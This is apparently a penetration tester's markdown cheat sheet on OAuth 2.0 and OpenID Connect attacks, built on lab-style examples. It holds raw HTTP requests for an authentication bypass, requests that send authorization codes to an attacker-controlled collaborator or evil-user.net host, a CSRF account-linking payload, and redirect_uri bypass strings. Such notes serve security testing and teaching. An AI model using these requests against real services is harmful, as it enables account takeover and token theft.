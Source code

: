 ```yaml
---
title: Oauth
description: While browsing the web, you've almost certainly come across sites that let you log in using your social media account. The chances are that this feature is built using the popular OAuth 2.0 framework. OAuth 2.0 is highly interesting for attackers because it is both extremely common and inherently prone to implementation mistakes. This can result in a number of vulnerabilities, allowing attackers to obtain sensitive user data and potentially bypass authentication completely.
---
```




## Authentication bypass via OAuth implicit flow

Check if authentication on the target server depends solely on the OAuth token or if it also uses username/email parameters provided by clientside. As an example the next request sends the token and email+username.


```http
POST /authenticate HTTP/1.1
Host: {{ target-domain vulerable.net }}
Cookie: session=n20zBuYgGlReeEXCjbsonkzq2qaH8txt
Content-Length: 103
Content-Type: application/json
Connection: close

{"email":"wiener@hotdog.com","username":"wiener","token":"YwLD1AxRtNly8VTIg63UxtFkHlfkweeFIwtG7O9V8ho"}
```

The server only checks if the token is valid, and then logs-in to the indicated username/email. In this request, using the same token from an account we control, we can authenticate as other user simply by changing email/username:

```http
POST /authenticate HTTP/1.1
Host: {{ target-domain vulerable.net }}
Cookie: session=n20zBuYgGlReeEXCjbsonkzq2qaH8txt
Content-Length: 103
Content-Type: application/json
Connection: close

{"email":"carlos@carlos-montoya.net","username":"carlos","token":"YwLD1AxRtNly8VTIg63UxtFkHlfkweeFIwtG7O9V8ho"}
```

This could lead to a full account takeover.

## OAuth account hijacking via redirect_uri

This vulnerability affects the OAuth provider or its configuration. Not limiting the `redirect_uri` parameter, could result in a CSRF-like vulnerability where an attacker could steal authorization codes. The victim just has to visit a malicious link where the `redirect_uri` parameter was changed to an attacker-controlled server.

```http
GET /auth?client_id=X&redirect_uri=https%3a%2f%2f{{ collaborator your.burpcollaborator.net }}&response_type=code&scope=openid%20profile%20email HTTP/1.1
Host: {{ target-domain vulerable.net }}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close
```


This will result on the user being redirected to the attacker server leaking the _Authorization code_ on the `code` GET parameter as seen on the following request received on the burp collaborator:


```http
GET /oauth-callback?code=DMRc3iIkqJ1EhTj2GMRhmz9V_viFZlz6pEQJUI0odAc HTTP/1.1
Host: {{ collaborator your.burpcollaborator.net }}
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
```

## Flawed CSRF protection
The `state` parameter on OAuth is optional, but strongly recommended. This parameter works as a CSRF token.

You can force people into either using yor account or into linking your social media account to their vulnerable app account. A simple redirect to the `?code=` URL is what you are looking for.


```http
HTTP/1.1 302 Found
Content-Type: text/html; charset=utf-8
Location: https://{{ target-domain vulerable.net }}/oauth-linking?code=PsM3KdpzzNnEfl4bYBIu0HgXkXiQd5Ge4zDbvGnKBRY

<a href="https://{{ target-domain vulerable.net }}/oauth-linking?code=PsM3KdpzzNnEfl4bYBIu0HgXkXiQd5Ge4zDbvGnKBRY">Click me</a>
```





## Additional tips

The `redirect_uri` must be limited to an specific whitelist. This could also be circumvented. A few tests should be carried out before giving up:
-  Try removing or adding arbitrary paths, query parameters, and fragments to **see what you can change without triggering an error**.
-  You might be able to exploit discrepancies between the **parsing of the URI**. You can try techniques such as:
  -  `https://default-host.com &@foo.evil-user.net#@bar.evil-user.net/`
-  You may occasionally come across **server-side parameter pollution** vulnerabilities. Just in case, you should try submitting duplicate redirect_uri parameters as follows:
  -  `https://oauth-authorization-server.com/?client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net`
-  Weird checks could be in place. Some servers give special treatment to **localhost URIs**; things such as subdomains like `localhost.evil-user.net` should be tested.
- **Don't limit your testing to the redirect_uri parameter**. You will often need to experiment with different combinations of changes to several parameters. Sometimes changing one parameter can affect the validation of others. For example, changing the `response_mode` from `query` to `fragment` can sometimes completely alter the parsing of the `redirect_uri`, allowing you to submit URIs that would otherwise be blocked. Likewise, if you notice that the `web_message` response mode is supported, this often allows a wider range of subdomains in the `redirect_uri`.
- Abusing **other vulnerabilities** on the same domain such as **open redirects** could also be handy. You could try URIs such as `https://client-app.com/oauth/callback/../../example/path` where theres open redirects. More vulnerabilities can be:
  - **Dangerous JavaScript that handles query parameters and URL fragments**: For example, insecure web messaging scripts can be great for this. In some scenarios, you may have to identify a longer gadget chain that allows you to pass the token through a series of scripts before eventually leaking it to your external domain.
  - **XSS vulnerabnilities**: Although XSS attacks can have a huge impact on their own, there is typically a small time frame in which the attacker has access to the user's session before they close the tab or navigate away. As the HTTPOnly attribute is commonly used for session cookies, an attacker will often also be unable to access them directly using XSS. However, by stealing an OAuth code or token, the attacker can gain access to the user's account in their own browser. This gives them much more time to explore the user's data and perform harmful actions, significantly increasing the severity of the XSS vulnerability.
  - **HTML injection vulnerabilities**: In cases where you cannot inject JavaScript (for example, due to CSP constraints or strict filtering), you may still be able to use a simple HTML injection to steal authorization codes. If you can point the redirect_uri parameter to a page on which you can inject your own HTML content, you might be able to leak the code via the _Referer_ header. For example, consider the following img element: `<img src="evil-user.net">`. When attempting to fetch this image, some browsers (such as Firefox) will send the full URL in the _Referer_ header of the request, including the query string.



## OpenID Connect
Basically extends OAuth to provide a more standarised, robust and reliable way of using OAuth as an authentication mechanism. The main addition is the **ID token** (`id_token`) response type. Is a more simple (requires less requests) way of using OAuth. Easily recognisable as it returns a Json Web Token (JWT).

Standard endpoint: `/.well-known/openid-configuration`

### Unprotected dynamic client registration
Some OpenID providers allow for a dynamic way of registering clients. This should be authenticated as attackers could register their own malicious client applications.

This could actually result in a SSRF vector where the vulnerable component is the OAuth provider. For example you could register an application and be able to provide a URL for the APP logo wich could be an SSRF attack.





## Saúl's _"seen in the wild"_ tips 

### Checking if the tokens were requested by the intended application

When using OAuth for authentication, the servers must check that the tokens they are receiving were not emmited for other apps. The attack would be like this:

1. Victim logs in using Google on a malicious rogue application.
2. Attacker controling the malicious application uses received OAuth/OpenID token to login on the vulnerable service.

More info at [Validating  an ID token](https://developers.google.com/identity/protocols/oauth2/openid-connect#validatinganidtoken)



